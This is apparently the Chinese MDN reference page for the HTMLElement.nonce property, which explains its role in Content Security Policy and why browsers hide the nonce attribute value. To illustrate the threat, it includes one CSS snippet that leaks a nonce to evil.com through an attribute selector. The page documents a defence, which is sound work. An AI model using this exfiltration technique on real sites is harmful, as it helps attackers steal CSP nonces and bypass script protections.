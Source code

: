 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
---
```


{{SeeCompatTable}}{{APIRef("HTML DOM")}}

{{domxref("HTMLElement")}} 接口的 **`nonce`** 属性返回只使用一次的加密数字，被内容安全政策用来决定这次请求是否被允许处理。

在接下来的实现中，有 nonce 属性的元素只能在脚本中使用（不可以在其他渠道使用，比如 css 属性选择器）。

## 语法

```plain
var nonce = HTMLElement.nonce
HTMLElement.nonce = nonce
```

### 访问 nonce 属性值

以前，并不是所有的浏览器都支持 `nonce` IDL 属性，因此在实际应用场景中，尝试使用[`getAttribute`](/zh-CN/docs/Web/API/Element/getAttribute) 作为备选：

```plain
let nonce = script['nonce'] || script.getAttribute('nonce');
```

然而，最新的浏览器版本都隐藏了 `nonce` 值（返回一个空值）。IDL 属 (`script['nonce']`) 成为唯一的访问方式。

隐藏 Nonce 是为了阻止攻击者通过某种机制提取出 nonce 值，比如下面这种方式：

```plain
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## 规范

{{Specifications}}

## 支持的浏览器

{{Compat("api.HTMLElement.nonce")}}
